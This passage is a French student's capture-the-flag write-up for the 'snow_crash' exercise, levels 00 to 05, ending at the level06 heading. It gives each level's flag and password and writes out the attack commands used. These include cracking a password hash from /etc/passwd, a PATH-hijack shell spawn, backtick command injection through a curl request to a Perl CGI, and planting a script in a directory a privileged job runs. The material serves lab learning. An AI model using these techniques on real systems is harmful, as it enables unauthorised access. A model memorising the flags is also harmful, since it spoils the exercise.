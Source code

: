 # snow_crash

Se connecter : 

```c
login: level00
Password: level00
```

level00

Definitions :

Un groupe = c'est un ensemble d'utilisateurs qui partagent les mêmes droits.
Si un fichier apparatient au groupe users,a lros tout les utuilisateurs du groupe users pourront y acceder selon les permissions.


groups 



Piste : 
J'ai taper groups 
```c
level00 users
```

level00 c'est mon utilisateur principal et il appartient au groupe users.

donc j'ai voulu chercher dans l'ordinateur les fichiers qui appartient a l'utilisateur flag00 et tout le reste je les dans la poubelle temporaire ( Poubelle qui eface tout ce qu'on l'envoie)
donc il y a deux choses qui reste 

```c
/usr/sbin/john
/rofs/usr/sbin/john
```

J'ai cat le contenu et je les decrypter surdconde.fr 
cdiiddwpgswtgt

c'est du rot15

resultat: 

```c
nottoohardhere
```

Je me suis connecter avec : 
su flag00
Password: nottoohardhere

flag: 
x24ti5gi3x0o12eh4esiuxias

-----------------

level01 

Piste: 
j'ai tape : 

```c
cat /etc/passwd 
cela liste tout les comptes utilisateur qu'il y a sur cette ordinateur
flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash

```

c'est le mot de pass et pour dechiffer un mot de passe, il faut utiliser
john the ripper
J'ai installer nix-shell 
```c
sh <(curl -L https://nixos.org/nix/install)
```
puis j'ai installer john the ripper 

```c
nix-shell -p john
```

j'ai envoyer le contenu dans un fichier
```c
echo "flag01:42hDRfypTqqnw" > hash.txt

```
j'ai utiliser john sur le fichier

```c
john hash.txt
```

flag: f2av5il02puano7naaf6adaaf

------------------------------------------
level02

j'ai fais ls
j'ai vue .pcap 
c'est un enregistrement de trafic et donc on utilise wireshark pour explorer
et comprendre le trafic.

scp -P 4242 level02@10.11.248.91:/home/user/level02/level02.pcap .
pour mettre le fichier sur mon ordinateur

installer Wireshark

```c
nix-shell -p wireshark
```

j'ai donner les deroit au fichier et
j'ai lancer wireshark
```c
chmod 777 level02.pcap
wireshark level02.pcap
```

clique droit sur Pas sword:
```c
tcp screen
```

```c
..%..%..&..... ..#..'..$..&..... ..#..'..$.. .....#.....'........... .38400,38400....#.SodaCan:0....'..DISPLAY.SodaCan:0......xterm.........."........!........"..".....b........b....	B.
..............................1.......!.."......"......!..........."........"..".............	..
.....................
Linux 2.6.38-8-generic-pae (::ffff:10.1.1.2) (pts/10)

..wwwbugs login: l.le.ev.ve.el.lX.X
..
Password: ft_wandr...NDRel.L0L
.
..
Login incorrect
wwwbugs login: 
```
Il a taper son mot de pass puis 3 fois il a appuyer sur del.
ft_waNDReLOL

flag: kooda2puivaav1idi4f57q8iq

-----------

level03

ls -l 
j'ai vue qu'il avait un executable

je l'ai copier sur mon ordi pour l'analyser sur dogbolt
```c
scp -P 4242 level03@10.11.248.91:/home/user/level03/level03 ~/Desktop/
```

etape: 
dans le main on a vue ceci 

```c
system("/usr/bin/env echo Exploit me")
```
Cela veut dire qu'il execute un truc dans la variable env. 


donc on vas lui injecter un faux echo 
```c
echo "/bin/sh" > /tmp/echo
chmod +x /tmp/echo
export PATH=/tmp:$PATH
./level03
```


flag: qi0maab88jeaj46qoumi7maus

--------------

level04

j'ai cat le fichier Perl 

j'ai vue
```c
print `echo $y 2>&1`;
```
ce que l'utilisateur envoie dans url , on le met apres un echo

```c
curl "http://localhost:4747/?x=\`getflag\`"
```

Ici, on remplace l’argument de echo par la sortie de getflag → donc c’est getflag qui est exécuté par Perl, et son résultat est imprimé.


flag: ne2searoevaevoem4ov4ar8ap

-----------

level05

```c
find / -user flag05 2> /dev/null 
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
```

j'ai cat

#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done

il exécute n’importe quel script placé dans /opt/openarenaserver/.


donc je vais executer mon getflag
```c
echo "getflag > /tmp/result_flag05" > /opt/openarenaserver/monscript.sh
```

puis je cat
```c
cat /tmp/result_flag05
```

flag: viuaaale9huek52boumoomioc

-------------

level06
